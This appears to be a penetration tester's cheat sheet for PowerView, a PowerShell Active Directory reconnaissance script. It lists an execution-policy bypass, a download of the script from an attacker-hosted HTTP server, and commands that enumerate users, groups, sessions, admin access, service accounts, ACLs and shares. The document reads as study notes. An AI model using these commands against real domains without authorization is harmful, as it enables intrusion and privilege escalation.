 # PowerView

PowerView is a powerful powershell script that can be imported as a module. It uses a range of inbuilt .NET classes to query the domain for information and return it.

Documentation:

[https://powersploit.readthedocs.io/en/latest/Recon/](https://powersploit.readthedocs.io/en/latest/Recon/)

Useful Flags:

- -Verbose

Import:

powershell -ep bypass

iwr -uri [http://192.168.45.154:8000/powerview.ps1](http://192.168.45.154:8000/powerview.ps1) -Outfile powerview.ps1

Import-Module .\PowerView.ps1

### Enumerating Domain

- Get-NetDomain

### Enumerating Users

- Get-NetUser
- Get-NetUser <username>
- Get-NetUser | select <attribute>,<attribute>,<attribute>

### Enumerating Groups

- Get-NetGroup
- Get-NetGroup <groupname>
- Get-NetGroup | select <attribute>,<attribute>,<attribute>
- Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.

### Enumerating Computer Information

- Get-NetComputer
- Get-NetComputer | select dnshostname,<attribute>

### Understanding Privileges

- Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
- Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
- .\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.

### Service Accounts

- Get-NetUser -SPN | select samaccountname,serviceprincipalname

### Enumerating Object Permissions

- Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
- Convert-SidToName <SID>
- Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights - check if user has GeneralAll property this is the highest privilege within AD.
- Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}

### Enumerating Shares

- Find-DomainShare
- net view [\\<hostname/ip>](file://%3chostname/ip%3e)
- ls [\\<hostname>\<sharename>\](file://%3chostname%3e/%3csharename%3e/)
- cat [\\<hostname>\<sharename>\](file://%3chostname%3e/%3csharename%3e/)